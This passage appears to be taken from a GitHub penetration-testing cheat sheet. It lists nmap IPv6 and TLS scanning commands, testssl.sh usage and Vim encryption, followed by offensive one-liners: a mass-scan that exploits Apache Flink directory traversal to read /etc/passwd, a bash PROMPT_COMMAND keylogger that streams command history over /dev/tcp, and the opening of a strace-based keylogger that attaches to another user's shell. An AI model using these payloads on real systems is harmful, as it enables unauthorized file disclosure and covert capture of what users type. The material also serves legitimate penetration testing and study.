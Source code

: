 # Look for neighbors
$ ip neigh

$ nmap -Pn -sV -6 fe80::20c0 -e eth0 --packet-trace
```

Utilize `ndp` to enumerate all of the current ndp entries.

```
$ ndp -an
```

## Nmap to Evaluate HTTPS Support:

```
nmap -p 443 --script=ssl-enum-ciphers <Target Domain>
```

## Encrypt Files with Vim:

```
$ vim –x <filename.txt>
```

## Testssl.sh:

Enumerating ciphers and encryption weaknesses using Testssl command line tool:

Download: https://testssl.sh/

The normal use case is  ```testssl.sh <hostname>```. 

Special cases:

```
testssl.sh --starttls smtp <smtphost>.<tld>:587 
testssl.sh --starttls ftp <ftphost>.<tld>:21
testssl.sh -t xmpp <jabberhost>.<tld>:5222 
testssl.sh -t xmpp --xmpphost <XMPP domain> <jabberhost>.<tld>:5222 
testssl.sh --starttls imap <imaphost>.<tld>:143
```

## Apache Flink Directory Traversal:

```
cat hosts | httpx -nc -t 300 -p 80,443,8080,8443,8888,8088 -path "/jobmanager/logs/..%252f..%252f..%252f......%252f..%252fetc%252fpasswd" -mr "root:x" -silent
```

## Bash Keylogger:

```PROMPT_COMMAND='history -a; tail -n1 ~/.bash_history > /dev/tcp/127.0.0.1/9000'```

## Strace Keylogger:

```
root@rosesecurity:~# ps aux | grep bash
rick      3103  0.0  0.6   6140  3392 pts/0    Ss+  17:14   0:00 bash
root      3199  0.0  0.6   6140  3540 pts/1    Ss   17:18   0:00 bash
root      3373  0.0  0.1   3488   768 pts/1    S+   18:06   0:00 grep bash
```
Strace Options:

1. –p 3103: connect to PID 3103, which above is on pts/0
2. –t : print the time of day
```